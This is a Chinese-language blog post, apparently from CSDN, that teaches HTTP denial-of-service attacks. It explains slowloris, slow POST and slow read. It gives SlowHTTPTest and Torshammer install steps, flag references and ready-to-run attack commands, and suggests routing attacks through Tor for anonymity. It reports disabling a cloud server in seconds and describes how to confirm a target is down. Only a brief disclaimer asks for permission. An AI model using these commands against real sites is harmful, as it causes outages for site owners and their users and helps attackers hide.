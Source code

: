 # ddos、http协议、TCP协议攻击工具及使用方法
src:https://blog.csdn.net/shuryuu/article/details/102637622



# 1. Hyenae 

 不做推荐介绍，因为把我自己的路由器玩崩了，本地路由器响应不了那么多的请求，本地电脑不要轻易尝试。感兴趣的自行百度。

# 2. SlowHTTPTest
很好用。

`Slowhttptest`是依赖`HTTP`协议的慢速攻击`DoS`攻击工具，设计的基本原理是服务器在请求完全接收后才会进行处理，如果客户端的发送速度缓慢或者发送不完整，服务端为其保留连接资源池占用，大量此类请求并发将导致`DoS`。

攻击分为以下三种模式：

## 2.1. slowloris
完整的http请求是以`\r\n\r\n`结尾，攻击时仅发送`\r\n`，少发送一个`\r\n`，服务器认为请求还未发完，就会一直等待直至超时。等待过程中占用连接数达到服务器连接数上限，服务器便无法处理其他请求。

## 2.2. slow http post
原理和`slowloris`有点类似，这次是通过声明一个较大的`content-length`后，`body`缓慢发送，导致服务器一直等待

## 2.3. slow read attack
向服务器发送一个正常合法的`read`请求，请求一个很大的文件，但认为的把TCP滑动窗口设置得很小，服务器就会以滑动窗口的大小切割文件，然后发送。文件长期滞留在内存中，消耗资源。这里有两点要注意：

1. `tcp`窗口设置要比服务器的`socket`缓存小，这样发送才慢。
2. 请求的文件要比服务器的`socket`缓存大，使得服务器无法一下子将文件放到缓存，然后去处理其他事情，而是必须不停的将文件切割成窗口大小，再放入缓存。同时攻击端一直说自己收不到。

## 2.4. 安装及使用

在`kali linux`安装`SlowHTTPTest`

```
# apt-get install slowhttptest
```

```
-g      在测试完成后，以时间戳为名生成一个CVS和HTML文件的统计数据
 -H      SlowLoris模式
 -B      Slow POST模式
 -R      Range Header模式
 -X      Slow Read模式
 -c      number of connections 测试时建立的连接数
 -d      HTTP proxy host:port  为所有连接指定代理
 -e      HTTP proxy host:port  为探测连接指定代理
 -i      seconds 在slowrois和Slow POST模式中，指定发送数据间的间隔。
 -l      seconds 测试维持时间
 -n      seconds 在Slow Read模式下，指定每次操作的时间间隔。
 -o      file name 使用-g参数时，可以使用此参数指定输出文件名
 -p      seconds 指定等待时间来确认DoS攻击已经成功
 -r      connections per second 每秒连接个数
 -s      bytes 声明Content-Length header的值
 -t      HTTP verb 在请求时使用什么操作，默认GET
 -u      URL  指定目标url
 -v      level 日志等级（详细度）
 -w      bytes slow read模式中指定tcp窗口范围下限
 -x      bytes 在slowloris and Slow POST tests模式中，指定发送的最大数据长度
 -y      bytes slow read模式中指定tcp窗口范围上限
 -z      bytes 在每次的read()中，从buffer中读取数据量
```

slowloris模式：

```
slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://host.example.com/index.html -x 24 -p 3
```

slow post模式：

```
$ slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://host.example.com/resources/index.html -p 3
```

还有个`HULK/Goldeneye`，不做介绍，基本跟上面这个差不多。

# 3. Torshammer
最大特点是可以通过TOR匿名网络执行攻击，也是针对`http`协议的攻击。

`kali Linux`安装工具：

```
git clone https://github.com/dotfighter/torshammer.git
```

使用方法：

```
cd torshammer
```

命令参考：

```
-t用于目标，某些域或IP地址。
-p用于端口默认值为80. 
-r用于线程，我们想要为此次攻击运行多少个线程。
-T代表定制攻击。
```

举例子：

```
python torshammer.py -t example.com -p 80 -r 5000
```

类似的攻击工具还有`Pyloris`和`Zarp`，可以自行搜索参考使用。经测试，阿里云两核四G的服务器，十秒内就会出现无法响应的状况。更高的配置可以自行测试。

# 4. 检查攻击结果

最后，你已经成功地进行了攻击。请注意，如果该网站正常开放，那么他们已经在一些内容交付网络（`CDN`）上安排了他们的网站，例如`Akamai`，`Cloudflare`，旨在抵御任何类型的`DoS`或`DDoS`攻击。要检查攻击是否成功，您可以去`isitdownrightnow`验证。但是绝大多数配置商用`CDN`的网站，单机是无法撼动的。

免责声明：本文仅供参考。请不要使用本文列举工具执行任何恶意活动。请记住，在定位或攻击任何人的IP /主机名/服务器之前，必须拥有必要的权限或得到许可。


